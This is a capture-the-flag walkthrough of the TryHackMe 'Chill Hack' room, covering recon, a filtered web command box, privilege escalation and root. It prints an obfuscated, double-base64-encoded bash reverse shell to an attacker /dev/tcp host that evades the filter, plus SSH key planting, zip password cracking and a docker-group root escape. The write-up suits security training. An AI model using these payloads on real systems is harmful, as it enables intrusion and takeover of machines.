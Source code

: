 ```yaml
---
description: https://tryhackme.com/room/chillhack
---
```


# Chill Hack

## Nmap

```
sudo nmap 10.10.77.207 -p- -sS -sV

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 
(Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Port 80 takes us to the following page:

![](<../../../.gitbook/assets/image (945).png>)

Running dirsearch against the target machine reveals a directory called secret.

![](<../../../.gitbook/assets/image (946) (1).png>)

The following page for /secret/ contains a command box.

![](<../../../.gitbook/assets/image (947).png>)

Running the id command shows we are running as www-data.

![](<../../../.gitbook/assets/image (948).png>)

Attempting to run binaries and commands such as cat are filtered presenting with the following page.

![](<../../../.gitbook/assets/image (949).png>)

The following page from [https://book.hacktricks.xyz/linux-unix/useful-linux-commands/bypass-bash-restrictions](https://book.hacktricks.xyz/linux-unix/useful-linux-commands/bypass-bash-restrictions) shows that we have multiple ways to attempt to bypass the filter. The first section regarding Reverse shell shows a reliable method for gaining a shell.

```
echo "echo $(echo 'bash -i >& /dev/tcp/<IP>/<PORT> 0>&1' | base64 | base64)|ba''se''6''4 -''d|ba''se''64 -''d|b''a''s''h" | sed 's/ /${IFS}/g'
```

Once the command has been run on the attacking machine take the output and run it on the command box on the target machine.

![](<../../../.gitbook/assets/image (950).png>)

The output below was run on the target machine and `netcat` on my attacking machine caught a shell.

```
echo${IFS}WW1GemFDQXRhU0ErSmlBdlpHVjJMM1JqY0M4eE1DNHhOQzR6TGpFd09DODRNQ0F3UGlZeENnPT0K|ba''se''6''4${IFS}-''d|ba''se''64${IFS}-''d|b''a''s''h
```

![](<../../../.gitbook/assets/image (951).png>)

Running linpeas.sh on the target machine reveals the following interesting information:\\

![](<../../../.gitbook/assets/image (952).png>)

Running `sudo -u aparr /home/apaar/.helpline.sh` produces an interactive shell script. Which can be escaped by running `bash`.

![](<../../../.gitbook/assets/image (953).png>)

Linpeas shows a service is running locally on port 9001.

![](<../../../.gitbook/assets/image (954).png>)

We can drop a SSH key onto the attacking server to get SSH service to then forward the port to our attacking machine.

**Attacking machine**

```
ssh-keygen -t rsa
```

Hit enter until the command completes. Copy the contents of the id\_rsa.pub file in the attacking machines home directory and echo this into authorized\_keys file for the user apaar.

**Target machine**

```
echo '<Contents of attacking machine id_rsa.pub>' > /home/apaar/.ssh/authorized_keys
```

![](<../../../.gitbook/assets/image (955).png>)

We can then connect to SSH as the user apaar without specifcying the password. Using the following syntax we can forward the target machine local port of 9001 to our attacking machine with SSH.

```
ssh -L 9001:127.0.0.1:9001 apaar@10.10.77.207  
```

We can then access http://127.0.0.1:9001 in a web browser.

![http://127.0.0.1:9001/](<../../../.gitbook/assets/image (956).png>)

Performing directory enumeration on this reveals the /images/ directory.

![](<../../../.gitbook/assets/image (957).png>)

![http://127.0.0.1:9001/images/](<../../../.gitbook/assets/image (958).png>)

Saving the image file hacker-with-laptop\_23-2147985341.jpg and running `steghide` reveals the following.

```
steghide --extract -sf ~/Desktop/hacker-with-laptop_23-2147985341.jpg 
```

![](<../../../.gitbook/assets/image (959).png>)

The archive backup.zip is password protected. Using zip2john we can create a hash and crack with john.

```
/usr/sbin/zip2john /home/kali/backup.zip > /home/kali/Desktop/hash
```

![](<../../../.gitbook/assets/image (960) (1).png>)

Extracting the contents reveals the file source\_code.php.

![](<../../../.gitbook/assets/image (962).png>)

Running the base64 value through -d reveals the following:

```
echo 'IWQwbnRLbjB3bVlwQHNzdzByZA==' | base64 -d
!d0ntKn0wmYp@ssw0rd     
```

We also have the user anurodh. The credentials can then be used to SSH into anurodh.

![](<../../../.gitbook/assets/image (963).png>)

Viewing the groups anurodh is a member of we do see docker. Running the following command taken from GTFOBins will give us root access. [https://gtfobins.github.io/gtfobins/docker/](https://gtfobins.github.io/gtfobins/docker/)

```
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

![](<../../../.gitbook/assets/image (964).png>)
